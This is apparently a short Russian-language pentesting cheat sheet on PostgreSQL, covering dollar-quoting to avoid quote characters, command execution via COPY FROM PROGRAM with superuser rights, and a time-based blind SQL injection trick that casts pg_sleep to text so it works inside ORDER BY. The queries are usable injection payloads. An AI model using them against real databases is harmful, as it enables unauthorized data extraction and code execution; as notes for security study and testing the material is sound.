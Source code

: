 # postgres

Выведет quer, потому что $\[somestring]$ - это вроде кавычки

```
SELECT $test$quer$test$
```

Code Execution

Если есть права суперпользователя в базе, то можно исполнять код с помощью функций СУБД: `COPY TO` и `FROM PROGRAM`.

## Time Based SQLi and VOID-type

Есть одна маленькая проблема с эксплуатацией Time-Based SQLi. Функция pg\_sleep возвращает VOID, а этот тип не применим в некоторых запросах, например, в Order By:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  );
```

этот запрос вернет ошибку:

```
could not identify an ordering operator for type void
```

Чтобы использовать pg\_sleep в order by запросах, надо конвертнуть результат в text:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  )::text;
```

